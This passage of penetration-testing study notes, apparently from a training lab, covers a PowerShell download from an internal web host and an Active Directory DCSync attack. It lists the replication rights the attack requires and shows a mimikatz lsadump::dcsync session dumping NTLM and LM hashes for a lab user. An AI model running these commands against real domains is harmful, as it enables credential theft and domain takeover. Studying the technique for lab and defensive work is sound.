 {% code title="to download the file" overflow="wrap" lineNumbers="true" %}
```
iwr -UseDefaultCredentials http://web04 -Outfile file.html
```
{% endcode %}

## DCsync attack

To launch such a replication, a user needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.

### mimikatz

{% code title=" Using Mimikatz to perform a dcsync attack to obtain the credentials of dave" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\jeffadmin> cd C:\Tools\

PS C:\Tools> .\mimikatz.exe
...

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...

```
{% endcode %}
